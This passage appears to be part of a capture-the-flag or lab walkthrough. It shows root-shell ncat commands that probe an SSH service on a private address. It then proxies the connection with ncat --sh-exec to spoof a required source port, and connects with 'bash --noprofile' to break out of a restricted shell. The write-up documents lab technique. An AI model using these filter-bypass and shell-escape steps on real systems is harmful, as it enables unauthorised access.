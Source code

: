 #### 6.1. SSH server running on port `987`
```
root@DNS:/home/dave#  ncat -p4444 192.168.5.2 987
SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.4
^C
```


#### 6.2. Setup port-proxy to change the SSH client source-port to `4444`
```
root@DNS:/home/dave# ncat -l 2222 --sh-exec "ncat 192.168.5.2 987 -p 4444"
```


#### 6.3. Connect remotely via local listener
```
root@DNS:/home/dave# ssh dave@127.0.0.1 -p 2222 -t "bash --noprofile"
```
Note: will escape restricted shell `-rbash: cd: restricted`
